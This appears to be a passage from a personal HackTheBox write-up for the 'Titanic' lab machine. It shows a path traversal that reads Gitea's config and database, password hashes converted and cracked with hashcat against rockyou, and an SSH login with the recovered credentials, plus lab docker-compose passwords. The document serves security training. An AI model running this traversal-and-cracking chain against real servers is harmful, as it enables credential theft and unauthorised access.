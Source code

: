 esto es un test
````
{"name": "Jack Dawson", "email": "jack.dawson@titanic.htb", "phone": "555-123-4567", "date": "2024-08-23", "cabin": "Standard"}



version: '3.8'

services:
  mysql:
    image: mysql:8.0
    container_name: mysql
    ports:
      - "127.0.0.1:3306:3306"
    environment:
      MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'
      MYSQL_DATABASE: tickets 
      MYSQL_USER: sql_svc
      MYSQL_PASSWORD: sql_password
    restart: always



version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always


````

![Pasted image 20250221112231.png](../../assets/Pasted%20image%2020250221112231.png)
so de structure is `/home/developer/gitea/data/gitea/<datos>` and the defatul gitea confing file is in `conf/app.ini` so lets check it, (because we have a path travertal vector)
![Pasted image 20250221113624.png](../../assets/Pasted%20image%2020250221113624.png)
![Pasted image 20250221113815.png](../../assets/Pasted%20image%2020250221113815.png)
nice now we can preform a crack attack

````txt
cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136
e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
53c5801d185db951883293b773a1290b5f0b739198d1347ce8604b036eab8cc61bacb713d33e9aad0a7fa53b762c678783d8
3d96983dad27f6189367d8810bb26221a247414df3a5b011b4251a04d23e0b5df495851487376f34e16e7cfae255b56d36e5
````

but we have to change the structure of the hash (https://exploit-notes.hdks.org/exploit/cryptography/key-derivation-function/pbkdf2/) we can use this tool to comberte the hash

````bash
python3 gitea2hashcat.py ../_home_developer_gitea_data_gitea_gitea.db
````

![Pasted image 20250221120029.png](../../assets/Pasted%20image%2020250221120029.png)

now we can use hashcat

````bash
hashcat --username giteaHashes /usr/share/wordlists/rockyou.txt
````

![Pasted image 20250221133550.png](../../assets/Pasted%20image%2020250221133550.png)

* perfect lets try it in a ssh connection\]

````bash
ssh developer@10.10.11.55
````

![Pasted image 20250221133843.png](../../assets/Pasted%20image%2020250221133843.png)
